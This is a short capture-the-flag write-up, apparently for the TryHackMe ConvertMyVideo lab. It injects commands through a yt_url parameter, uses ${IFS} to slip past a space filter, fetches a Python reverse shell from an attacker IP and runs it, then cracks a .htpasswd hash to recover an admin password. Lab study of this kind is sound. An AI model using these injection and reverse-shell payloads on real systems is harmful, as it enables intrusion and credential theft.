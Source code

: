 Found Command Injection in `yt_url` payload [[PNPT/LPE/Capstones/ConvertMyVideo - THM/Enumeration|Enumeration]]
# Exploitation
---
- Using spaces does not work, so we can use `${IFS}` instead to get a simple python reverse shell
	- Upload a python reverse shell using:
	```
		yt_url=;`wget${IFS}http://10.11.135.80/rev.py`
	```
	- Run it:
```
		yt_url=;`python3${IFS}rev.py`
```
![[Pasted image 20250503141109.png]]
![[Pasted image 20250503141128.png]]
# Enumeration - Post Exploitation
---
- Fille `.htpasswd` in `admin` directory reveals password for `itsmeadmin`
	- ![[Pasted image 20250503141201.png]]
- Crack using `john`
	- ![[Pasted image 20250503141225.png]]
- `itsmeadmin` :  `jessie`